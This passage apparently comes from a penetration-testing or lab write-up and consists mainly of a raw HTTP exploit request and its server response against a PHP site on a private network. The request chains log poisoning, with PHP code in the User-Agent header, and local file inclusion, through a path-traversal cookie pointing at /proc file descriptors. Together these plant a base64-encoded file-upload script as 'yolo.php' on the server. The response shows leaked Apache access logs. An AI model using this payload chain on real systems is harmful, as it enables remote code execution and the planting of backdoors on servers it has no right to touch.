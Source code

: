 <pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
GET /listings.php?cmd=PGZvcm0gZW5jdHlwZT0ibXVsdGlwYXJ0L2Zvcm0tZGF0YSIgYWN0aW9uPSJ5b2x
vLnBocCIgbWV0aG9kPSJQT1NUIj48aW5wdXQgdHlwZT0iaGlkZGVuIiBuYW1lPSJNQVhfRklMRV9TSVpFIiB2
YWx1ZT0iNTEyMDAwIi8%2BIFVwbG9hZCBmaWxlOiA8aW5wdXQgbmFtZT0idXNlcmZpbGUiIHR5cGU9ImZpbGU
iIC8%2BPGlucHV0IHR5cGU9InN1Ym1pdCIgdmFsdWU9IlNlbmQgRmlsZSIgLz48L2Zvcm0%2BPD9waHAgJHVw
bG9hZGZpbGUgPSBiYXNlbmFtZSgkX0ZJTEVTWyd1cVyZmlsZSddWyduYW1lJ10pO2VjaG8gIjxwPiI7aWYobW
92ZV91cGxvYWRlZF9maWxlKCRfRklMRVNbJ3VzZXJmaWxlJ11bJ3RtcF9uYW1lJ10sICR1cGxvYWRmaWxlKSl
ZWNobyAiRmlsZSBpcyB2YWxpZCwgYW5kIHdhcyBzdWNjZXNzZnVsbHkgdXBsb2FkZWQuCiI7fWVsc2Uge2Vja
G8gIlVwbG9hZCBmYWlsZWQiO31lY2hvICI8L3A%2BIjtlY2hvICc8cHJlPic7ZWNobyAnSGVyZSBpcyBzb21l
IG1vcmUgZGVidWdnaW5nIGluZm86JztwcmludF9yKCRfRklMRVMpO3ByaW50ICI8L3ByZT4iOz8%2B HTTP/1.1
Host: 192.168.201.3
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: <?php $data=base64_decode($_GET['cmd']);$file=fopen('./data/yolo.php','w');fwrite($file,$data);fclose($file);phpinfo();?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=8010e458940960ea1b44e7c5cca8c4ba; user=../../../../../proc/3272/fd/9%00
Connection: close
</pre>

<i><b>HTTP Response :</b></i> 

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
HTTP/1.1 200 OK
Date: Sun, 27 Dec 2020 14:29:07 GMT
Server: Apache/2.2.3 (CentOS)
X-Powered-By: PHP/5.1.6
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Content-Length: 781
Connection: close
Content-Type: text/html; charset=UTF-8

&lt;!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN" >
&lt;html>
[.....]

&lt;/strong>&lt;/h3>&lt;/p>&lt;p>&lt;h3>This is your personal space, you can post your comments and list your monthly report:&lt;/h3>&lt;/p>&lt;p>&lt;pre>192.168.201.1 - - [27/Dec/2020:06:38:28 -0500] "GET /community.jpg HTTP/1.1" 404 286 "http://192.168.201.3/listings.php" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
192.168.201.1 - - [27/Dec/2020:06:38:35 -0500] "GET / HTTP/1.1" 302 1421 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
192.168.201.1 - - [27/Dec/2020:06:38:35 -0500] "GET /listings.php HTTP/1.1" 200 680 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
192.168.201.1 - - [27/Dec/2020:06:38:35 -0500] "GET /community.jpg HTTP/1.1" 404 286 "http://192.168.201.3/listings.php" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
192.168.201.1 - - [27/Dec/2020:06:39:17 -0500] "GET /listings.php HTTP/1.1" 200 973 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
192.168.201.1 - - [27/Dec/2020:06:40:35 -0500] "GET / HTTP/1.1" 200 1421 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
[.....]